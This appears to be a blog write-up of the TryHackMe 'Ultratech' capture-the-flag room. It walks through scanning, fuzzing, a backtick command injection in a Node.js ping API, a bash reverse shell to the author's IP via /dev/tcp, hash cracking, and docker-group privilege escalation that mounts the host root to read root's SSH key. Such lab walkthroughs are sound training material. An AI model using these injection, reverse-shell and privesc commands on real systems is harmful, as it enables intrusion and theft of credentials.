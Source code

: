 ```yaml
---
title: Ultratech | Tryhackme writeup
date: 2022-05-08 18:30:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, penetration, testing, hacking, ethical, Ultratech, docker privesc, enumeration, nodejs service, easy password cracking, medium]
comments: false

---
```




This is my writeup for **Ultratech** room from Tryhackme, it' a Medium difficulty room and it covers the following :
- User enumeration
- Fuzzing
- Nodejs API command injection
- Credential cracking
- Docker group privilege escalation

# Scanning

When doing the usual **Nmap** scan i get 4 open ports, 21 and 22 are the usual ones for **ftp** and **ssh**, but i dont know what the other two are so i run 
**Nmap** again but this time with **-sCV** options to know the services and versions of that ports.

![First Nmap scan for open ports](/assets/img/ultratech/001.png)
_Nmap scanning for open ports_

![Second Nmap scan for versions](/assets/img/ultratech/002.png)
_**-sCV** scan to know version and service of ports 31331 8081_

The ports finally are **Apache** http for 31331 and **Node** for 8081.

Im running **whatweb** in parallel to know what technologies the webs have.
![Web scanning with watweb](/assets/img/ultratech/003.png)
_Web scanning with whatweb_
I don't find nothing interesting so now i'm going to visit the port 31331 web first and see what i can find.

The're is a section of the web diplaying the members working on the project and their nicknames and these nicknames may be usernames for login so i save them.
![Members section web](/assets/img/ultratech/004.png)
_Potential usernames_

## Fuzzing
I can't find anything else so i'm going to start fuzzing the 31331 port website.
I'm using wfuzz with a short dictionary of routes, and the results are as follows:
![Fuzzing 1](/assets/img/ultratech/005.png)
_Fuzzing 31331 route_
Im checking **robots.txt** first and this is interesting because there's a route to another .txt inside.
```
utech_sitemap.txt
```
When checking this txt three routes are displaying, two of them are the ones that i previously saw when inspecting the web, but the third one is new.
```
/index.html
/what.html
**/partners.html**
```
Inside /partners.html there's a login panel.

![Hidden login panel](/assets/img/ultratech/006.png)
_Login panel inside partners.html_
Trying random credentials redirects me to port 8081/auth route saying Invalid login.

Checking the other routes i got when fuzzing, i see this api.js interesting file inside /js folder.
![api.js source code](/assets/img/ultratech/007.png)
_/js/api.js source code_

# Gaining access
The line in red is the most interesting to me, i think that maybe i can inject commands there.
I tried the following:
- http://IP/ping?ip=MYIP \| whoami (didn't work)
- http://IP/ping?ip=MYIP ; whoami (didn't work)(; got removed)
- http://IP/ping?ip= 'whoami' (didn't work)
- http://IP/ping?ip= \`whoami\` (**WORKS**)

_(The idea of using `` came to my mind looking at the code i saw earlier and some NodeJs examples that i found online)_

With this i have Remote Command Execution and i can work getting a reverse shell.
Sadly i can't get a reverse shell from the search bar with various methods so I script this:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.70.95/443 0>&1'
```
And now i can get this script by tarting a python http server:

```bash
python3 -m http.server 80
```
and launching wget to the script route.
```
http://MACHINEIP/ping?ip=`http://MYIP/script.sh`
```
It worked!
![wget worked](/assets/img/ultratech/008.png)
_wget Completed: response 200 OK_
Now i could do **bash script.sh**, but i did **ls** before and there is a sqlite backup i didn't see earlier.
There are two hashes there, one of them for one of the names in the website.
![sqlite backup contents](/assets/img/ultratech/009.png)
_Two hashes inside the sqlite backup_
Cracking the hashes in crackstation.net gives me the passwords:
![Hash 1 cracked](/assets/img/ultratech/010.png)
_Hash 1 cracked_
![Hash 2 cracked](/assets/img/ultratech/011.png)
_Hash 2 cracked_

Now im quickly trying the credentials in the login page from before. Both of them gives me the same result:
![Message behind the login](/assets/img/ultratech/012.png)
_Message from a dev to the user i had from before_

I didn't know what to do, reading the message i randomly tought that maybe he wants me to login into the server, so i tried to login with the credentials i had into ssh and it worked!

![Access gained](/assets/img/ultratech/013.png)
_Access gained as non-privileged user_
# Privilege escalation
First time i do is **id** and i see this output:
![id output](/assets/img/ultratech/014.png)
_id output_

My user has docker permissions so maybe i can mount machine's / into the container as root.

Doing this i see that there's an image called **bash**:
```bash
docker images
```

So now i can do this to mount / , run the container as root and then launch **sh**:
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

![Privesc to root into the container](/assets/img/ultratech/015.png)
_Privesc to root into the container_

Because the whole filesystem is mounted into my container, i can access everything outside the container from the inside.
The last task asks me to get the first characters from root's id_rsa, and i found it into /root/.ssh/id_rsa:

![Content of root's id_rsa](/assets/img/ultratech/015.png)
_Root's private ssh key_

I could create a new superuser for persistence or change root's password as we can access and edit /etc/shadow and /etc/password,
but as this is a ctf and i completed all the tasks, this ends here for me. Pretty interesting room 😊

Thanks for reading, have a happy hacking!


